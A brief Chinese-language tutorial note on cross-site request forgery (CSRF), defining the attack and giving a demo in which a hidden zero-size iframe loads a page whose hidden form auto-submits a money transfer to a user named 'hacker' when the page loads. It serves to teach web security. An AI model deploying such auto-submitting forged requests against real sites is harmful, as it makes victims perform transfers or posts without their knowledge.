 ```yaml
---
title: 2-2-2_csrf
date: 2018-05-28 18:56:23
tags:
    - CSRF
---
```


## CSRF

### 概念 
全称 : Cross Site Request forgrey 
中文 : 跨站请求伪造

用途 : 执行恶意操作 （“被转账”，发垃圾评论等），制造蠕虫 ...。

利用用户的已登陆身份，用用户的名义在用户不知情的情况下执行非法操作。

### 原理

默认流程:
```
Request URI: xxx/demo/csrf/transfer.php
cookie:xxxxxxxxxxxxxxxx1
Form:  username:json   amout:10
```
恶意代码

```html
<body>
    <iframe src="csrf-attack.php?t-0.3132353463" width=0 height=0> </iframe>
</body>

```

```php
# csrf-attack.php
<body onload="submitForm();">
    <form id="tip" action="xxx/demo/csrf/transfer.php"  method="post">
    <input type="hidden" name="toUser" value="hacker">
    <input type="hidden" name="amount" value="10">
    </form>
</body>

<script>
    function submitForm(){
        document.getElementById("tip").submit();
    }
</script>

```


